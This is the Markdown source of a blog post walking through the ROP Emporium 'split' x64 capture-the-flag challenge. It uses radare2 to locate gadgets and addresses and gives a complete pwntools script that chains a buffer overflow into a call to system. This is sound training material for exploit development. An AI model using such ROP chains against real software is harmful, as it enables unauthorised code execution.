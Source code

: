 ```yaml
---
layout: post
title:  "ROP Emporium split Writeup (x64)"
date:   2024-06-01 13:15:45 -0400
categories: rop-emporium challenge-2
tags: rop-emporium split x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[second challenge](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `system` with the argument `/bin/cat flag.txt`.
This string is also present in the binary!

### x64 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x64` arguments are passed through specific registers.
The first three arguments correspond to the `rdi`, `rsi`,
and `rdx` registers respectively. 
[This x64 cheat sheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf){:target="_blank"}{:rel="noopener noreferrer"}
can help if you want to learn more about `x64`.

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> Is there an address where `system()` is called?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/split/x64-addr.png)

Let's investigate `usefulFunction`. We can view
the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful-asm](/images/split/x64-useful-asm.png)

This function seems to `call` the `system()` function
with the argument `/bin/ls`. We want to change the
argument but let's take note of the `call` address
`0x0040074b`

### Setting Arguments
> Find a gadget which sets the `rdi` register
{: .prompt-tip }
According to the
[x64 calling convention](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"},
a function's first argument is passed through the
`rdi` register. In order to set this value we need
to find a `pop rdi` gadget which will take a value
off of the stack and place it into `rdi`

We can search for ROP gadgets in `radare2` with the `/R`
command

```
/R pop rdi
```
![rdi-addr](/images/split/x64-rdi-addr.png)

The address of our gadget is `0x004007c3`. Once we call
this gadget, we'll need to pass the address of the
string we want to execute onto the stack.

### String Address
> The string `/bin/cat flag.txt` exists in the binary
{: .prompt-tip }
Using `radare2` again we can search for case insensitive
strings with the `/i` command. So to find the address
of `/bin/cat flag.txt` we run

```
/i /bin/cat flag.txt
```
![cat-addr](/images/split/x64-cat-addr.png)

Awesome the address of the string is `0x00601060`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
str_addr = 0x00601060
sys_addr = 0x0040074b
pop_rdi_addr = 0x004007c3

# create payload
payload = b'A' * 40
# set arg1 (pop rdi)
payload += p64(pop_rdi_addr)
payload += p64(str_addr)
# call sys
payload += p64(sys_addr)

# send payload + receive flag
io = process('./split')
io.recv()
io.sendline(payload)
print(io.recvline())
success(io.recvline())
```
![flag](/images/split/x64-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.

[Previous Challenge (ret2win)]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[split x86]({% post_url 2024-06-01-rop-emporium-split-x86%}){:target="_blank"}{:rel="noopener noreferrer"}
